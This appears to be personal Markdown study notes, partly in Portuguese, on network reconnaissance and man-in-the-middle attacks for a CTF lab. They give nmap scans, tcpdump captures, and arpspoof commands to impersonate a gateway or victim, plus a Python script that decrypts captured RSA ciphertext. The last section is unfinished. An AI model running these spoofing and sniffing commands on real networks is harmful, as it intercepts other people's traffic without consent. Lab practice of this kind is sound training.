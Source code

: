 
## Links
1. [Find All Live Hosts IP Addresses Connected](https://www.geeksforgeeks.org/find-all-live-hosts-ip-addresses-connected-on-network-in-linux/)
2. [Man in the middle](https://www.golinuxcloud.com/man-in-the-middle-attack-arp-spoofing/)


## Network common tools
- whois
- nslookup
- tcpdump
- netstat
- nc (netcat)
- nmap
- arpspoof (redirects packets from a target host (or all hosts) on the LAN intended for 
another host on the LAN by forging ARP replies.)
- dnsspoof


## Usefull commands
#### Check ip
- ip a

#### Discover hosts
- ip a
- nmap -sn <ip>

#### Check open ports
- nmap -p 0-65535 <ip>

#### Discover Gateway
- ip route | grep default

#### Pretend to be the router or the victim (Man in the Middle)
1. Pretend to be the router
- arpspoof -i <interface> -t <victim> <gateway_ip>
2. Pretend to be the victim to the router
- arpspoof -i <interface> -t <gateway_ip> <victim> 


## CTF
#### Farejando pacotes
1. Check hosts in the same network
- ip a
- nmap -sn 172.31.0.0/24

2. Check which of them are communicating with arp
- tcpdump -i eth0 arp


#### Mensagem Cifrada (Man in the middle)
1. Check the Gateway and the communicating hosts
- ip route | grep default
- tcpdump -i eth0 arp

2. Tell the victim we are the destination
- arpspoof -i <interface> -t <victim_ip> <destination_ip>

3. Check the packages from vances and from alice
- tcpdump -i eth0 src <victim_ip> -A | tee content.dat

4. Get the cipher message from comunication content

5. Generate the private key from the public RSA [RsaCtfTool](https://github.com/RsaCtfTool/RsaCtfTool)

6. Install the library and run the following python script to get the message `pip install cryptography`
```
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend
from Crypto.Util.number import bytes_to_long, long_to_bytes

# Ciphertext as an integer
ciphertext_int = int(
    "24172467435619340375323632165733456805473767354960620686935367004883386792239921504896957347809426291703888521786717763520262131607974888976430627385945750219968938988267083"
)

# Read and load private key
with open("./vances_private.pem", "rb") as key_file:
    private_key = serialization.load_pem_private_key(
        key_file.read(),
        password=None,
        backend=default_backend()
    )

# Extract RSA numbers
private_numbers = private_key.private_numbers()
n = private_numbers.public_numbers.n
d = private_numbers.d

# Decrypt
plaintext_int = pow(ciphertext_int, d, n)
plaintext_bytes = long_to_bytes(plaintext_int)

print("Decrypted message:", plaintext_bytes.decode(errors="ignore"))
```


####  Espufando Alice 
1. Verificar as portas abertas da alice
- nmap -p 0-65535 172.31.0.99

2. Conectar a porta da alice
- nc alice_pc 8349

3.
- 


